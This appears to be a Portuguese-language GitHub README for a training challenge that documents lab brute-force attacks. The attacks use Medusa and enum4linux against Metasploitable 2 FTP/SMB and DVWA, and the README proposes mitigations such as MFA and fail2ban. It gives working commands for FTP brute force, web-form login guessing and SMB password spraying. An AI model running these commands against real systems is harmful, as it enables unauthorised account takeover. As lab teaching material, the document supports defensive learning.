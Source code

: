 # dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).
![metasploitable](imagens/matasploitable.png)

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
 comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
 -h: Host Alvo
 -u: Usuário (ou -U para lista de usuários)
 -P: Wordlist de Senhas
 -M: Módulo/Serviço a ser atacado (ftp)


B. Ataque a Formulário Web (DVWA)
 comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
 -H: Cabeçalho
 -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
 -m: Mensagem de erro (para saber quando falhou)

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
 comando: enum4linux 192.168.1.10
 Encontra usuários existentes no serviço SMB

 comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
 -U: Lista de Usuários
 -p: Senha única (para password spraying)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.

